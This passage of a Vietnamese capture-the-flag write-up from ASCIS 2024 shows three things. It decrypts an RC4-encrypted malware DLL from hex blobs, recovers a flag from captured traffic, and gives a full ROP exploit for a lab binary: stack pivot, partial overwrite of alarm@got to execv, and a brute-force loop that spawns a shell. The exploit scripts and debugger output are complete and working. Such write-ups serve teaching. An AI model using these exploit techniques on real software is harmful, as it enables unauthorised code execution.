b77a80dd20d782d55d38a60dcc44707c95e97cbf07204e64c7024691c4d04ef9c70a564b7ed96d61d7665cfaa8696761547d3eaf355aeb0f8981852027ab0e0f99fb475f603da3950ba6e094f2280076d353c7f84fed12dc739ac24634c97ef63d0eb307f3c3ae918b44f76ec4106ffdd23fa20adeb79913da911c11724fa6e3f62a4eb2fbf43a8042683adfad5819c325e43226db793e0d71ec2ac8cc1d40e9feb0b912663c4252cf2072d4c8d477577a1aa949728eb634de995a7c1be98065bd45642f00c013cd6d705af79a40ca0f4f664f1d52cc5746c79af93def73c64142755dd068c9c799c76ec83ab190180be7cd6be1064171d337cdbcbf7127543157a5517c65dc03044")
p7 = bytes.fromhex("a1a9ecd685d8c4552f8ca11538d02e9563bd3797d0cd1055036070002041b73891e4bf38c4d20078fa6a047f3e4a6766f6c14de8a44e2b5d5170304d83ad41eb4006b81934da5414c65c1417ef602dd379fa2478cd965597964d191e5759204610025e7d784b0d36e959173c84dd56c447d166396d17086fb428889272692fd9b581ceb97bfef5fce561d86a6d6a77ad2d3f1118172790b834b1e2cadab326013af1f590fcca70846684b6ed0aa2a09cfee26579fee806ac77f50a6b37a3e20d819d0c4d94bfe0eb7d690160e20c356ad6b69d99c01e91979dae4102a7b913a734ce2ec52ee3cced73558a686603e1493c7cb23a6bef1149d130e3b97c99e817492b4bedd8d59808e6a3a8707e3499f202d4d16c0d3509bcc19100350e683a5130f3c24c9384a042d665c5a67188e09987e89d3bf595f8ae4d246d1ef5c3b42098c8f3c66ca474ae9e3333ba5dc5ae3bd942846ed8f02e134ac9bb9f1abe0d502bea8e4955154503051db10c772b9d7f16013518714bb4ba6c6db39dbfd412d90a9fbd5f3c7746488cbb865c9a8fae68df0e249ef560291f9a399ec89d83de1a4bfb70bdd95a37ff0f7afbf499990f93f76b5cc1d7879b5368cd30c5323ba2054d070169a4ec9b603a8a59b11ccd57bfb798903d5ab21ce851c6fb973687e31298d010a8ffe3c0d0a7178fb76f92f7ab56306f84f8ad17a6908090a13bd77cb4fc9043007e2ce72d2ac34b2e36d9a4371f612ff27e7fc687286c1729d6e6e4592ebba4ac13fa5b0dad907364592b9a84a1510826f28c8c2f4558215cbdaf8d09df1c96e98190026e65de4bfd3290f6773e00f54eeff97e3ef7d2071ed73685587b8b110903215971f521c197c77159a9ddf09fd8ee980aeeeb59b86e03f86ce3a1d7fbbbc7e0f3f7b280861c15d5d96dcf6a26da59e084004aec4aa440338ad3978ff6c6a9e7dbc61a7b0c407463fffdfc2a87c00e50e812731b9ef265ca3d80676baf0f4eb02e6c92368be8775c2e49cff3bff39f827d7cb46468c1dcb199d313c6ba69c3317c76ac335ef72d53574f47185af3dacfc124c052450852f70ad2d581d12ae78df9b6f0f82f187f90d2b65936cdac6514e8b0d7c5d8bbfa1127f4baf743a8c04f2ecdc88fe067aa9b74616d9e76dc2ac64aa1959e0578c8781b76563ffe17076b38a55ae7d05147f92a8db55de04d84b5ef22ebd6fb5d10b482547a4480e602fa042e60d1d9b465312562d2493ee9acc1deb474a41a3e91234a8f7dba3924431eaa7570f0a225b2141387d7b8cab4e49fa334f91fafe8d41816c68fe85fd93630bb2a71d6a9eaaf902ce36e057c80992a49f7b9987709ddb268d135c6ad2c2198233b2b572daccef040317f5f2ff3b5db4627d3a84f9263149aabdb175ff937b5b21b9417c93b5e0365a1de893ed24d6504288c926edc915d2e8d7f7f2d8d761d2e0abb66d67daaa77945e717e8c7bd3e6ee9f805c197f3e8bbd505610ab22c9543d7c20f150723007240b5bab4025b74f2683faa2f17e13375f1e9867aced10513b5ecdfd5af5c4db8723f45a031fcac9ec1bf434830865910f0497081921618ee0d205421aca767409ae00ac13ba9b1971315a686dc7a6b7ac32414d02f50d79a756d4227bf5bc130bdd8f1ccc334e3d64bfd4a9c4f6e38925b556524942cdd8073ee8bb35648267c4ae8fb3d0b3bd9e01cf0b6c1be7091f115ed69456964ae0af3fe2d2f93070bb97b8023fbd2b94711c0ba0d2be43098f36b2fd9845bfa64845361b5dbf3b050e4f862f865cfc4705b3fe106fa010ac76b6affc7d09e64052c768ab911783bab6bd86679bec7fab6a81a2099bddd6f5ca5f0bd27b6a91e509af758adac993ed4c04635f63e32033bade93546417e9318ba41c008b953bf7e18294fac990874bac4be290329743b616ecce4b51ea86fb05297c54ab9abcf3e6a1382778927e42276725fc2d6191bb926fc874781b3eb614589a9df06ce6d3a4524e2dd3bc81b7e0c6e04342414bce2ad7b89c084bc3d8004d2be61244511bed00aea158671781c5380aad0fd98")
p8 = bytes.fromhex("39ade69013aea063d357111fe9d953e9b0765e03ce3c3d6fa632b1ace3cccb1135b50d4a31d9cd4643ceca73f3a23316bc14327f666827886139895ee5281fc4ce451f97e5b0d161f25597a728d5aec8a91f9856ec73c3ffbd361d4edf42c1ed758b93b13425d66889e2a111b01d5dfe55841843f65224249525ab725bed4bfb14154bcd3951d73c0efd0ede340295293fbfa5e0070538ee8a953846cf0df81fedccf86569ba84af04a0810e2f9358d52a9ed91ae384c15c83a1d7d259b3145261117b6f517b36cf1f3f1d7e43bc51698a0589dd16094af4b6576fbcffdf1159b7bdb576a76ef83722e52b53679699489b90ce96117c5240efeafbfce0903273ad59f2a176e3763e910dc2ade3e15e0c40ba8312253d66e0eadf38611b0328ace560ff42f8c66c7f22b78f21c788977b1adbec86fe1acbec18d42f0c3601a135aa24c3b13fba3f500eb5437ca0f3e1d63f09e90877d899afdf47563983a6d7fc1a4f872cc1eab274781cf347dba1deeaf682f0d324f42dbcca499f05995c5526ff32b6ffeef6508eb2cd71c72eb4d25256216971cbd89354c9f37bacacb71e440bedb9e7c9a79d7e1421a2788bdb6aa3c17e12010be43b8e6a9f3012560ebdfa6b97164d2b5e6dd48a1b583d5ca5253b5a75126679837027d48658c2803ee2c7c887828993fa7c3e93d3d59ccfc439ac2ae1feb7ec1a42fb1f9716026b8adef96846bc28f117f40effe65198f35772559f588102")

payload = p1+p2+p3+p4+p5+p6+p7+p8
key = "WTPjWbJafqNPqrZFswaijmyVKMddOrKzukegbVDpXJqDfulPDmDwDasqTwxvibnM".encode("latin1")

cipher = ARC4.new(key)
dll = cipher.decrypt(payload)

with open("payload.dll", "wb") as f:
    f.write(dll)
```

Kết quả thu được là một dll rất dễ đọc, gồm 4 hàm gen như mình đã phân tích phía trên. Chức năng mỗi hàm và `new_token` tương ứng sẽ như sau: 

- gen0: Đảo ngược chuỗi → `new_token` = `MnbivxwTqsaDwDmDPlufDqJXpDVbgekuzKrOddMKVymjiawsFZrqPNqfaJbWjPTW`
- gen1: Đảo mode viết hoa/viết thường → `new_token` = `wtpJwBjAFQnpQRzfSWAIJMYvkmDDoRkZUKEGBvdPxjQdFULpdMdWdASQtWXVIBNm`
- gen2: Dịch phải 1 ký tự → `new_token` = `MWTPjWbJafqNPqrZFswaijmyVKMddOrKzukegbVDpXJqDfulPDmDwDasqTwxvibn`
- gen3: ROT13 → `new_token` = `JGCwJoWnsdACdeMSfjnvwzlIXZqqBeXmhxrtoIQcKWdQshyCQzQjQnfdGjkivoaZ`

### 0x04 Get flag

Cuối cùng, viết script để dump các package trong các bước (12 → 15) rồi decrypt RC4 với key là các `new_token` tương ứng với `option` mà server đã gửi về. 

```python
import os
import struct
import subprocess
from Crypto.Cipher import ARC4

KEYS = {
    0: b"MnbivxwTqsaDwDmDPlufDqJXpDVbgekuzKrOddMKVymjiawsFZrqPNqfaJbWjPTW",
    1: b"wtpJwBjAFQnpQRzfSWAIJMYvkmDDoRkZUKEGBvdPxjQdFULpdMdWdASQtWXVIBNm",
    2: b"MWTPjWbJafqNPqrZFswaijmyVKMddOrKzukegbVDpXJqDfulPDmDwDasqTwxvibn",
    3: b"JGCwJoWnsdACdeMSfjnvwzlIXZqqBeXmhxrtoIQcKWdQshyCQzQjQnfdGjkivoaZ",
}

TSHARK_PATH = "/mnt/c/Program Files/Wireshark/tshark.exe"
PCAP_FILE = "record.pcapng"
OUTPUT_IMAGE = "screenshot.bmp"

def main():
    cmd = [
        TSHARK_PATH,
        "-r",
        PCAP_FILE,
        "-Y",
        "tcp.stream == 0 && tcp.len > 0",
        "-T",
        "fields",
        "-e",
        "ip.src",
        "-e",
        "tcp.len",
        "-e",
        "data"
    ]
    output = subprocess.check_output(cmd, text=True).strip().split("\n")

    rounds = []
    current_cmd = None
    current_data = []

    for line in output:
        parts = line.split("\t")
        src = parts[0]
        length = int(parts[1])
        data = bytes.fromhex(parts[2])

        if src == "192.168.89.136" and length == 1:
            if current_cmd is not None:
                rounds.append((current_cmd, b"".join(current_data)))
            current_cmd = data[0]
            current_data = []
        elif src == "192.168.89.1":
            if current_cmd is not None:
                current_data.append(data)

    if current_cmd is not None:
        rounds.append((current_cmd, b"".join(current_data)))

    bmp_full = bytearray()
    for i, (cmd, raw_chunk) in enumerate(rounds):
        key = KEYS[cmd]
        chunk_data = raw_chunk[4:]
        decrypted_chunk = ARC4.new(key).decrypt(chunk_data)
        bmp_full.extend(decrypted_chunk)

    with open(OUTPUT_IMAGE, "wb") as f:
        f.write(bmp_full)

if __name__ == "__main__":
    main()
```



Kết quả thu được flag: `ASCIS{TruSt_m3_br0!_I_d1dn_T_D0_4nyTh1ng!_I_sw34r}`

## pwn/ROP



### 0x01 Overview

Kiểm tra thông tin của binary và các lớp bảo vệ.

```shell
➜  pwn-ROP file chall
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=408b0fc1dee8dad901b33ff68c1e8179fef5bc89, not stripped

gef➤  checksec
Canary                        : ✘
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
```

Đề bài cho một binary 64 bit, đã tắt canary và có thể ghi được GOT (Global Offset Table). 

Bên cạnh đó, đề bài còn cung cấp Dockerfile, mình sẽ build docker để lấy libc, ld trong docker trước. Ý tưởng đầu tiên của mình là sử dụng kỹ thuật **ret2libc**. 

```shell
➜  pwn-ROP docker build . -t rop
➜  pwn-ROP docker run -p 5000:5000 --privileged -it rop
➜  pwn-ROP docker cp ee13afb344e4:/srv/usr/lib/x86_64-linux-gnu/libc.so.6 .
➜  pwn-ROP docker cp ee13afb344e4:/srv/usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 .
```

### 0x02 Finding the vulnerability

Dễ dàng thấy có bug Buffer Overflow trong hàm `vuln()`. Đặc biệt hơn khi không có bất cứ hàm nào in ra được output ngoài màn hình. Vì vậy kỹ thuật **ret2libc** nêu trên không thể sử dụng được. Kết hợp với việc GOT ghi đè được, mình có thể dùng kỹ thuật **ret2dlresolve** để giải hoặc **Stack Pivot** nhằm overwrite bảng GOT của `alarm()` thành `execv()`.  




Do `execv()` yêu cầu tới tận 3 tham số, trong khi đó mình không thấy bất cứ gadget nào có thể thay đổi được giá trị thanh ghi `rdx`. Vì vậy mình đã sử dụng `execv()` với yêu cầu là 2 tham số và các giá trị `rdi`, `rsi` hoàn toàn kiểm soát được.  


### 0x03 Stack Pivot 

Stack Pivot là một kỹ thuật đưa địa chỉ stack từ một số ngẫu nhiên do cơ chế [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization) thành địa chỉ tĩnh của binary nhằm thuận tiện cho việc xây dựng các ROP chain.

Để sử dụng kỹ thuật này, đoạn assembly code thường được sử dụng là 

```plaintext
leave
retn
```

Đây chính là đoạn code mình sử dụng để thực thi stack pivot có địa chỉ **0x401249**.

```plaintext
.text:0000000000401249 lea     rax, [rbp+buf]
.text:000000000040124D mov     edx, 48h ; 'H'  ; nbytes
.text:0000000000401252 mov     rsi, rax        ; buf
.text:0000000000401255 mov     edi, 0          ; fd
.text:000000000040125A call    _read
.text:000000000040125F nop
.text:0000000000401260 leave
.text:0000000000401261 retn
```

Nếu đoạn code trên được gọi, mình đã làm được những gì?
- Ghi được dữ liệu vào địa chỉ `rbp - 0x20`. 
- `New_RBP` = `[rbp]`
- `New_RIP` = `[rbp + 8]`

---

Trước tiên, cần phải tính toán offset để ghi đè Saved RIP. Mảng `buf` nằm ở `[rbp - 0x20]` &rarr; ta cần 32 bytes để ghi đè nó. Mình sẽ thử viết 1 POC để trigger lỗi xem `new_RBP` và `new_RIP` sẽ có giá trị như nào. 

```python
#!/usr/bin/env python3
from pwn import *
import time

exe = ELF('./chall_patched', checksec=False)
libc = ELF('./libc.so.6', checksec=False)
ld = ELF('./ld-linux-x86-64.so.2', checksec=False)

context.update(arch='amd64', os='linux', log_level='debug', terminal='cmd.exe /c start wsl'.split(), binary=exe)

p = process(exe.path)   

payload = flat(
    b'A' * 0x20, 
    0xdeedbeef,         # New RBP 
    b'B' * 8            # New RIP 
)

p.send(payload)

p.interactive()
```

Kết quả thu được như mình mong muốn, `new_RBP = 0xdeedbeef` và `new_RIP = BBBBBBBB`

```shell
$rax   : 0x30
$rbx   : 0x0
$rcx   : 0x00001555553fd7e2  →  0x5677fffff0003d48 ("H="?)
$rdx   : 0x48
$rsp   : 0x00007fffffffdfe8  →  0x4242424242424242 ("BBBBBBBB"?)
$rbp   : 0xdeedbeef
$rsi   : 0x00007fffffffdfc0  →  0x4141414141414141 ("AAAAAAAA"?)
$rdi   : 0x0
$rip   : 0x0000000000401261  →  <vuln+002d> ret
$r8    : 0x00007fffffffdf30  →  0x0000000000000000
$r9    : 0x0
$r10   : 0x00001555552ef5e8  →  0x000f001200001a64
$r11   : 0x246
$r12   : 0x00007fffffffe108  →  0x00007fffffffe37e  →  "/home/ducdatdau/ctfs/2024/ascis_final/pwn-ROP/chal[...]"
$r13   : 0x0000000000401262  →  <main+0000> endbr64
$r14   : 0x0000000000403e18  →  0x0000000000401180  →  <__do_global_dtors_aux+0000> endbr64
$r15   : 0x0000155555554040  →  0x00001555555552e0  →  0x0000000000000000
$eflags: [zero CARRY PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
─────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdfe8│+0x0000: 0x4242424242424242   ← $rsp
0x00007fffffffdff0│+0x0008: 0x0000000000000001
0x00007fffffffdff8│+0x0010: 0x0000155555312d90  →  0xe80001b859e8c789
0x00007fffffffe000│+0x0018: 0x0000000000000000
0x00007fffffffe008│+0x0020: 0x0000000000401262  →  <main+0000> endbr64
0x00007fffffffe010│+0x0028: 0x00000001ffffe0f0
0x00007fffffffe018│+0x0030: 0x00007fffffffe108  →  0x00007fffffffe37e  →  "/home/ducdatdau/ctfs/2024/ascis_final/pwn-ROP/chal[...]"
0x00007fffffffe020│+0x0038: 0x0000000000000000
───────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x40125a <vuln+0026>      call   0x4010a0 <read@plt>
     0x40125f <vuln+002b>      nop
     0x401260 <vuln+002c>      leave
●→   0x401261 <vuln+002d>      ret
[!] Cannot disassemble from $PC
───────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall_patched", stopped 0x401261 in vuln (), reason: BREAKPOINT
─────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x401261 → vuln()
──────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

### 0x04 Building the payload

Các công việc mình cần phải xử lý bây giờ là: 

1. Overwrite 2 bytes cuối cùng của GOT `alarm` thành `execv`. \
Do cùng phiên bản Libc nên 12 bits cuối của địa chỉ các hàm Libc luôn giữ nguyên. Ví dụ `alarm = 0x1555553d3540` thì **540** luôn được giữ nguyên, overwrite 2 bytes cuối làm thay đổi giá trị `3`. Lúc này sẽ cần bruteforce để tìm chính xác địa chỉ, xác suất thành công là **1/16 = 6.25%**.
2. Ghi chuỗi `/bin/sh\x00` lên bộ nhớ. 
3. `[rsi] = 0`, trong đó RSI là một địa chỉ hợp lệ.

#### 1. Overwrite 2 bytes `alarm@got`

Để overwrite, `rbp - 0x20` = 0x404020 &rarr; `rbp` = 0x404040. 



Sau khi ghi được 2 bytes cuối, `[rbp]` = [0x404040] = 0, dẫn tới việc không thể tiếp tục ghi được các giá trị khác vào bộ nhớ nữa. 

Mình xây dựng lại cấu trúc bộ nhớ như sau, trong đó [0x404040] tiếp tục được trỏ tới 1 vùng nhớ không có dữ liệu ở phía dưới để phục vụ cho công việc `[rsi]` = 0, đồng thời 12 bits cuối cùng của `alarm@got` cũng bị overwrite. 



```python
pop_rdi = 0x401247
pop_rbp = 0x40119d
ret = 0x40101a
alarm_got = 0x404020

payload = flat(
    b'A' * 0x20, 
    alarm_got + 0x40, 
    0x401249
)

input('input 1: stack pivot')
p.send(payload)

payload = flat(
    alarm_got + 0x100, 
    0x401249,
    b'B' * 0x10,
    alarm_got + 0x20, 
    0x401249
)

input('input 2: stack pivot new area')
p.send(payload)

input('input 3: change 2 bytes')
p.send(b'\xc0\x41')

```

Kết quả thu được như mình mong muốn, 2 bytes cuối của `alarm@got` bị ghi thành `/x41/xc0`, `rbp` = 0x404120. 

```shell
gef➤  x/gx 0x404020
0x404020 <alarm@got.plt>:       0x00001555553d41c0
gef➤  x/gx $rbp
0x404120:       0x0000000000000000
```

#### 2. Write `/bin/sh\x00` and seup [RSI] = 0

Công việc cuối cùng là viết `/bin/sh\x00`, setup cho RSI = 0 và xây ROP chain để gọi `execv`. Memory layout được mình thiết kế như sau



Payload hoạt động nhưng phải bật option NOASLR. Quay lại vấn đề bruteforce, mình sẽ bỏ script trong vòng `While` để liên tục bruteforce đến khi nào có đúng địa chỉ `execv`. 

```python
#!/usr/bin/env python3
from pwn import *
import time

exe = ELF('./chall_patched', checksec=False)
libc = ELF('./libc.so.6', checksec=False)
ld = ELF('./ld-linux-x86-64.so.2', checksec=False)

context.update(arch='amd64', os='linux', log_level='debug', terminal='cmd.exe /c start wsl'.split(), binary=exe)

while True:
    def GDB(): 
        gdb.attach(p, gdbscript='''
            b *0x401261
            continue
        ''')

        pause()

    # GDB()

    p = process(exe.path)   

    pop_rdi = 0x401247
    pop_rbp = 0x40119d
    ret = 0x40101a
    alarm_got = 0x404020

    payload = flat(
        b'A' * 0x20, 
        alarm_got + 0x40, 
        0x401249
    )

    time.sleep(0.1)
    log.info('input 1: stack pivot')
    p.send(payload)

    payload = flat(
        alarm_got + 0x100, 
        0x401249,
        b'B' * 0x10,
        alarm_got + 0x20, 
        0x401249
    )

    time.sleep(0.1)
    log.info('input 2: stack pivot new area')
    p.send(payload)

    log.info('input 3: change 2 bytes')
    p.send(b'\xc0\x41')

    # payload = flat(
    #     b'/bin/sh\x00', 
    #     pop_rdi, 
    #     alarm_got + 0xe0, 
    #     exe.plt['alarm'],
    #     alarm_got + 0xe0, 
    #     0x401249
    # )

    payload = flat(
        0,
        b'/bin/sh\x00',
        b'C' * 0x10, 
        0xdeedbeef, 
        pop_rdi, 
        alarm_got + 0xe8, 
        exe.plt['alarm']
    )

    time.sleep(0.1)
    log.info('input 4: write /bin/sh')
    p.send(payload)

    try:
        time.sleep(0.1)
        log.info('input 5: getshell')
        p.send(b'\x00')

        time.sleep(0.1)
        p.sendline(b'echo PWNED')
        p.recvuntil(b'PWNED')
        
        break
    except EOFError:
        p.close()

p.interactive()
```

## pwn/BugBounty 

